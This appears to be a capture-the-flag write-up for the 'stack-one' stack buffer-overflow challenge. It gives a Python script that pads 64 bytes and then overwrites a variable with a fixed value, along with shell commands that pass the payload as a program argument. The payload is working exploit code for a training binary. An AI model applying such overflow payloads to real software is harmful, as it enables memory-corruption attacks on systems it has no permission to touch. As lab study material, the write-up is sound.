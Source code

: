 # stack-one
#### script
```python
import sys 

buffer = b'A'*64
value = 0x496c5962.to_bytes(4,'little')

sys.stdout.buffer.write(buffer+value)

```

#### analysis
The challenge is quite similar to the previous one (stack_zero). However, this one requires the exploit to be passed as an argument to the program. This means we won't be able to pipe the output of our script into the program like so 
```shell
#wrong 
python3 scripts/stack_one.py | ./stack-one 
```
Instead, we use bash **Parameter expansion** to evaluate the script in the argument to pass it through
```shell
./stack-one $(python3 scripts/stack_one.py)
```